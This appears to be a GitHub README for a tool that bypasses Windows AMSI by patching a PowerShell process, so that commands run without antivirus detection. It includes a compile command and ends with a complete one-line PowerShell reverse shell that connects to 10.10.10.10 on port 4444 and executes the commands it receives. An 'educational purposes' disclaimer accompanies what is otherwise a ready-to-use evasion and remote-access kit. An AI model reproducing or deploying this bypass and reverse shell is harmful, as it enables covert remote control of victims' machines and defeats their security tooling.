 # AMSI Bypass & Command Executor

This project demonstrates how to bypass the anti-malware scanning interface (AMSI) in Windows PowerShell to execute PowerShell commands without being detected by antivirus software.

## How It Works

AMSI is a Windows security feature that checks for malicious code in PowerShell scripts before they are executed. By default, PowerShell enables AMSI, which makes it difficult for malicious code to run undetected. However, it is possible to bypass AMSI with certain techniques.

In this project, we use a technique that involves patching an existing PowerShell process to disable AMSI scanning. This approach ensures that the PowerShell script runs without triggering any antivirus software alarms.

## Compilation Command

To compile the code in this project, use the following command:

```powershell
g++ -m32 -o happy_hacking.exe -static -mwindows main.cpp
```

## Important Notes

 - It is important to verify that any command you run uses only PowerShell to perform its designated tasks.
 - It is recommended to avoid using `powershell.exe <command>` and opt for `Invoke-Expression` instead. By doing so, the command will be executed in the patched PowerShell instance created by the executable.
 - Please note that this project is intended solely for educational purposes and should not be used for malicious activities.

## Example Script

Here is an example of a single line PowerShell script that can be encoded in base64 format and that you can use in the code. This script connects to a remote server at IP address `10.10.10.10` on port `4444` and starts a command shell.

```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10', 4444); $stream = $client.GetStream(); [byte[]]$bytes = 0..65535 | ForEach-Object {0}; while (($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0) {$data = ([System.Text.Encoding]::ASCII).GetString($bytes, 0, $i);$sendback = (Invoke-Expression $data 2>&1 | Out-String);$sendback2 = $sendback + 'PS ' + (Get-Location).Path + '> ';$sendbyte = ([System.Text.Encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte, 0, $sendbyte.Length);$stream.Flush()};$client.Close();
```
